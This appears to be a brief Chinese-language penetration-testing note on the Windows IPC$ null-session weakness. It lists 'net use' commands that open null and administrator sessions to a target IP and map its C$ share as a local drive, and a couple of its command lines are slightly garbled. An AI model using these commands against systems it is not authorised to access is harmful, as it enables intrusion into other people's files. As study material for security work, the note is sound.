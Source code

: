 ## IPC$的空连接漏洞
**建立空连接**

	net use \\10.0.255.34 "" /user:""

**建立非空链接**

	net use \\10.0.255.34 "123456" /user:"administrator"

**映射默认共享**

	net use z: \\IP\C$ "pwd" /user: "user"
> 注：将对方C盘映射为自己的Z盘。
> 如果已经和目标建立了IPC$,则可以直接用IP+盘符+$访问，具体命令为 net user z:\\IP\C$

**删除一个IPC$连接**

	net use \\IP\ipc$ /del

**删除共享映射**

	net use c:/del
	// 删除映射的C盘

	net use * /del
	//删除全部